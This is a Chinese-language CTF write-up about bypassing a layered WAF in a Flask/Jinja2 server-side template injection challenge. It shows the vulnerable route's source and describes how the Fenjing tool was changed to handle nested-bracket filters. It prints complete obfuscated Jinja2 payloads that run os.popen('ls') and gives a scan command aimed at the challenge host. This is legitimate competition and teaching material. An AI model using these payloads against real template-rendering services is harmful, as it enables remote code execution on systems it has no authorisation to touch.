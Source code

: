 # 源码
collapsed:: true
	- 稍微修改了一点
	- ```python
	  @app.route('/secr3ttt', methods=['GET', 'POST'])
	  def secr3t():
	  
	      name = request.args.get('klf', '')
	      template = f'''
	         <html>
	             <body>
	                 <h1>找到secr3t了，但是找不到flag你还是个klf</h1>
	                 <h1>%s</h1>         
	             </body>
	         </html>
	         <img src=\"https://image-obsidian-1317327960.cos.ap-chengdu.myqcloud.com/obisidian-blog/8.jpg\" alt="g">
	         <!--klf?-->
	         <!-- klf还想要flag？没那么容易 -->
	  
	         '''
	      bl = ['_', '\\', '\'', '"', 'request', "+", 'class', 'init', 'arg', 'config', 'app', 'self', 'cd', 'chr',
	            'request', 'url', 'builtins', 'globals', 'base', 'pop', 'import', 'popen', 'getitem', 'subclasses', '/',
	            'flashed', 'os', 'open', 'read', 'count', '*', '43', '45', '38', '124', '47', '59', '99', '100', 'cat', '~',
	            ':', 'not', '0', 'length', 'index', '-', 'ord', '37', '94', '96', '48', '49', '50', '51', '52', '53', '54',
	            '55', '56', '57',
	            '58', '59', '[', ']', '@', '^', '#']
	      for i in bl:
	          if i in name:
	              return str('klf.html')
	              #return "真是klf！！！回去多学学啦"
	  
	      two_bracket_pattern = r"\s*\)\s*\)"
	      two_bracket_match = re.search(two_bracket_pattern, name)
	      bracket_comma_bracket_pattern = r"\s*\)\s*(,)?\s*\)"
	      bracket_comma_bracket_match = re.search(bracket_comma_bracket_pattern, name)
	      bracket_bracket_line_pattern = r"\s*\)\s*\)\s*\|"
	      bracket_bracket_line_match = re.search(bracket_bracket_line_pattern, name)
	      comma_bracket_bracket_line_pattern = r"\s*,\s*\)\s*\)\s*\|"
	      comma_bracket_bracket_line_match = re.search(comma_bracket_bracket_line_pattern, name)
	  
	      pattern_mo = r"\d+\s*%\s*\d+|[a-zA-Z]+\s*%\s*[a-zA-Z]+"
	      matche_mo = re.search(pattern_mo, name)
	  
	      if two_bracket_match:
	          if bracket_comma_bracket_match.group(1):
	              print("bracket_comma_bracket_match: " + name)
	              return str('klf.html')
	          elif comma_bracket_bracket_line_match:
	              print("comma_bracket_bracket_line_match: " + name)
	              return str('klf.html')
	          elif bracket_bracket_line_match:
	              print("bracket_bracket_line_match: " + name)
	              return render_template_string(template % name)
	          else:
	              print("two_bracket_match: " + name)
	              return str('klf.html')
	  
	      # 输出匹配的结果
	      if matche_mo :
	          print("match_mo: " + name)
	          return str('klf.html')
	  
	  
	      a=render_template_string(template % name)
	      print("passed: " + name)
	      if "{" in a:
	          return a + str('win.html')
	      return  a
	  ```
- # 分析
	- WAF可以分成三部分：keyword检测WAF、针对`))`的规则WAF、针对`%`的特殊waf
		- `))`特殊waf：在匹配到`))`之后做检测：
			- 匹配到`),)`：ban
			- 匹配到`,))|`：ban
			- 匹配到`))|`：通过
				- 总感觉这是给新版焚靖开的绿灯。。。
			- 否则ban
		- `%`的特殊waf
			- ban了`数字%数字`和`关键字%关键字`两种payload
	- 焚靖会在生成一列数字后通过filter求和，也会在生成一系列字符后通过filter拼接，此时旧版焚靖会在生成时加上多余的逗号，被上方的waf检测。
	- 焚靖生成payload时需要使用大量的嵌套递归生成payload, 这不可避免地会生成很多括号，此时旧版会被上方的waf检测到
- # 绕过
	- 和[[CTF/WP/klf_2的SSTI自动化绕过]]重复的就不介绍了，主要就是多了双层括号的检测
	- 实际上旧版焚靖对waf有以下假设：
		- waf是幂等的，所以我们可以自动化waf检测
		- waf是简单的关键字检测，没有对长度等其他特征进行检测，所以我们可以通过不断嵌套表达式构造payload
		- waf没有对括号进行判断，所以我们可以在表达式中随意加括号，不需要处理运算优先级
		- 将可以通过waf的表达式A拼接到可以通过waf的字符串B中，形成的表达式C也可以通过WAF，所以我们可以在生成一个子表达式后随意使用
	- 但是在焚靖推出后，上述假设逐渐消解：
		- 有题目使用了随机化的waf，随机选取黑名单关键字
		- 有题目检测payload长度，禁止使用过长的payload
		- 有题目（比如这题）过滤了括号
		- 有题目（就这题）开始检测特殊的嵌套表达式
	- 多层括号
		- 新版(~~大概会是`v0.5.10`~~`v0.6.0`)使用了`(1,2,3)|sum`的形式求任意整数，使用`))|join`拼接字符串，刚好可以绕过上方的waf，但还是需要避免出现多层括号。。。
		- 避免需要多层括号需要计算优先级，计算优先级需要重写几乎所有生成表达式的规则
		- 之前就想做这个功能了，如果不是这道题我可能永远都不会去写。。。
		- 计算完优先级就可以计算出哪里需要加上括号，哪里不需要，然后把多余的括号去除掉，效果如下：
			- 旧：
				- ```jinja2
				  {{(((((lipsum|attr((lipsum|escape|batch(22)|list|first|last)*2+'globals'+(lipsum|escape|batch(22)|list|first|last)*2))|attr((lipsum|escape|batch(22)|list|first|last)*2+'getitem'+(lipsum|escape|batch(22)|list|first|last)*2))((lipsum|escape|batch(22)|list|first|last)*2+'builtins'+(lipsum|escape|batch(22)|list|first|last)*2)|attr((lipsum|escape|batch(22)|list|first|last)*2+'getitem'+(lipsum|escape|batch(22)|list|first|last)*2))((lipsum|escape|batch(22)|list|first|last)*2+'import'+(lipsum|escape|batch(22)|list|first|last)*2)('os').popen('ls ')).read())}}
				  ```
			- 新：
				- ```jinja2
				  {{lipsum|attr(lipsum|escape|batch(22)|list|first|last*2+'globals'+lipsum|escape|batch(22)|list|first|last*2)|attr(lipsum|escape|batch(22)|list|first|last*2+'getitem'+lipsum|escape|batch(22)|list|first|last*2)(lipsum|escape|batch(22)|list|first|last*2+'builtins'+lipsum|escape|batch(22)|list|first|last*2)|attr(lipsum|escape|batch(22)|list|first|last*2+'getitem'+lipsum|escape|batch(22)|list|first|last*2)(lipsum|escape|batch(22)|list|first|last*2+'import'+lipsum|escape|batch(22)|list|first|last*2)('os').popen('ls ').read()}}
				  ```
		- 然后函数调用之类的地方也有可能因为内层表达式带有括号而导致双括号，在末尾加上逗号即可。最后即使强过滤`))`也可以自动解出：
			- ```jinja2
			  {%set prrc=((dict(dict(dict(a=1)|tojson|batch(2))|batch(2))|join,(dict(c=x)|join),dict()|trim|last)|join).format(((9,9,9,1,9)|sum))%}
			  {{lipsum
			  |attr(x|center(11)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(95,95,(39,39,25)|sum,(35,35,35,3)|sum,111,98,97,(35,35,35,3)|sum,115,95,95),)
			  |attr(x|center(11)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(95,95,(39,39,25)|sum,(39,39,23)|sum,116,(39,39,27)|sum,116,(39,39,23)|sum,(39,39,31)|sum,95,95),)(x|center(12)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(95,95,98,117,(39,39,27)|sum,(35,35,35,3)|sum,116,(39,39,27)|sum,(39,39,32)|sum,115,95,95),)
			  |attr(x|center(11)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(95,95,(39,39,25)|sum,(39,39,23)|sum,116,(39,39,27)|sum,116,(39,39,23)|sum,(39,39,31)|sum,95,95),)(x|center((9,1)|sum)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(95,95,(39,39,27)|sum,(39,39,31)|sum,112,111,114,116,95,95),)(x|center(2)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(111,115),)
			  |attr(x|center(5)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(112,111,112,(39,39,23)|sum,(39,39,32)|sum),)(x|center(4)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%((35,35,35,3)|sum,115,32,(39,8)|sum),)
			  |attr(x|center(4)|replace(x|center|first,(prrc,joiner|string|batch(2)|first|last)|join)%(114,(39,39,23)|sum,97,(39,39,22)|sum),)()}}
			  ```
	- 改进完直接梭就是了：`python -m fenjing scan --url 'https://jmbk4t72kryptmvbndz5vdoxc.node.game.sycsec.com/secr3ttt' --detect-mode fast`
	- 目前对比旧版，新版焚靖主要改进了几点：
		- 增加了基础的优先级检测
		- 增加了一系列生成数字的规则
		- 针对双括号进行了规避，增加相关规则
		- 改进scan功能、检测长payload是否被waf之类一系列的常规优化
- # 一点碎碎念
	- 焚靖的出现就是为了自动化解决常规Jinja SSTI题目，从而倒逼（如果可能的话..）各大比赛推出更加复杂且有趣的赛题。如果说长度检测和随机化waf还算有趣的话，那这题就是无聊到顶点的常规SSTI
	- 而且作为开源工具，焚靖本身必然会被出题人针对，也就是说焚靖不仅需要解决已经存在的赛题，还需要“解决”不存在的赛题。所以要尽量隐藏焚靖的特征，让焚靖的payload更像手工书写的payload, 避免其特征被出题人利用，写出针对性waf。